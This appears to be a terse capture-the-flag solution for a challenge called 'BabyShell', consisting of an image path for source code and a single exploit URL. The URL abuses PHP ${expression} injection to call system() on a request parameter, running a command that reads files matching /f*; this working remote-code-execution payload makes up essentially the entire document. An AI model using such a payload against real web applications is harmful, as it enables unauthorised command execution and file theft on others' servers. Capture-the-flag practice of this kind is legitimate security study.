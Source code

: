 # BabyShell

PHP `${expression}` injection

EXP: `http://host:port/?format=${system($_GET[1])}&1=cat%20/f*`
